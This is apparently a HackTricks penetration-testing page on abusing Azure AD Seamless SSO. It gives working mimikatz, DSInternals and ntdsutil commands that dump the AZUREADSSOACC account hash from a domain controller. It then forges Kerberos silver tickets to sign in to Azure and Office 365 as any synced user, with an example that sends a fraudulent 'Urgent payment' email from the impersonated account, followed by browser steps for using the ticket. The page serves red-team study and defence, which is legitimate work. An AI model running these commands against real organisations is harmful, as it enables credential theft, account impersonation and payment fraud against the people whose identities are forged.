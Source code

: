 # Seamless SSO

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically **signs users in when they are on their corporate devices** connected to your corporate network. When enabled, **users don't need to type in their passwords to sign in to Azure AD**, and usually, even type in their usernames. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Basically Azure AD Seamless SSO **signs users** in when they are **on a on-prem domain joined PC**.

It's supported by both [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) and [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO is using **Kerberos** for authentication. When configured, Azure AD Connect creates a **computer account called AZUREADSSOACC** in on-prem AD. The password of the AZUREADSSOACC account is **sent as plain-text to Azure AD** during the configuration.

The **Kerberos tickets** are **encrypted** using the **NTHash (MD4)** of the password and Azure AD is using the sent password to decrypt the tickets.

**Azure AD** exposes an **endpoint** (https://autologon.microsoftazuread-sso.com) that acc**e**pts Kerberos **tickets**. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

### On-prem -> cloud

The **password** of the user **AZUREADSSOACC never changes**. Therefore, a domain admin could compromise the **hash of this account**, and then use it to **create silver tickets** to connect to Azure with **any on-prem user synced**:

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

With the hash you can now **generate silver tickets**:

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

To use the silver ticket:

1. Launch _Mozilla Firefox_.
2. Go to **`about:config`** and set the [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navigate to any web application that is integrated with our AAD domain. We will use [Office 365](https://portal.office.com/), which is the most commonly used one.
4. Once at the logon screen, fill in the user name, while leaving the password field empty. Then press TAB or ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

#### And thats all! So should be in! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~Creating Kerberos tickets for cloud-only users~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

If the Active Directory administrators have access to Azure AD Connect, they can **set SID for any cloud-user**. This way Kerberos **tickets** can be **created also for cloud-only users**. The only requirement is that the SID is a proper [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Changing SID of cloud-only admin users is now **blocked by Microsoft**.\
For info check [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
